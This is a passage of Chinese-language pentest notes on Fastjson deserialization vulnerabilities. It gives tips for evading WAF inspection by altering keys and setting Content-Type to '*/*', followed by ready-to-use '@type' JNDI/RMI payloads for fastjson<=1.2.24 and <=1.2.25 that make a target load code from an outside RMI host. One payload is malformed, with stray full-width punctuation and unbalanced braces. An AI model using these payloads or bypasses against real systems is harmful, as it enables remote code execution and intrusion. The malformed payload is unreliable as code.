 可以以此作为依据进行简单的 fastjson 版本判断

**使用 is 开头的 key 字段**

Fastjson 在做智能匹配时，如果 key 以 is 开头, 则忽略 is 开头, 相关代码如下:

在原始 JavaBean 属性 age 和 name 基础上，在 JSON key 加入 is 仍可正常解析：
```
{"isname":"test","isage":20}
```

### 修改 Content-Type

某些 Waf 考虑到解析效率的问题，会根据 Content-Type 的内容进行针对性的拦截分析，例如值为 appliction/xml 时会进行 XXE 的检查，那么可以尝试将 Content-Type 设置为通配符 `*/*` 来绕过相关的检查, 同理对 application/jsonContent-Type 的请求，也可以尝试将 Content-Type 设置为通配符 `*/*` 来绕过相关的检查：

---

## fastjson<=1.2.24 (CNVD-2017-02833)

**相关文章**
- [【超详细】Fastjson1.2.24反序列化漏洞复现](https://mp.weixin.qq.com/s/Pd_8wVHEyidlXbOuhp_gTQ)
- https://github.com/vulhub/vulhub/tree/master/fastjson/1.2.24-rce

**描述**

该漏洞在默认配置下即存在, 所以在 fastjson<=1.2.24 版本时, 该 poc 通杀

```json
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://x.x.x.x:1098/jndi", "autoCommit":true}

{"v24":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://x.x.x.x:1098/jndi", "autoCommit":true}}
```

官方于 2017/02/06 发布 1.2.25 版本修复该漏洞, 并增加了黑名单策略用来限制恶意类被反序列化.

此后, fastjson 的漏洞基本都是基于黑名单限制的绕过.

---

1.2.25 版本开始, 引入了 checkAutotype 安全机制 (白名单检测).

这也在极大程度上减小了之后几个版本基于黑名单绕过的 poc 的危害影响范围.

---

## fastjson<=1.2.25

```json
{"@type":"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory","properties"："data_source":"rmi://localhost:1099/Exploit"}}

{"@type":"[com.sun.rowset.RowSetImpl","dataSourceName":"rmi://localhost:1099/Exploit","autoCommit":true}
```

---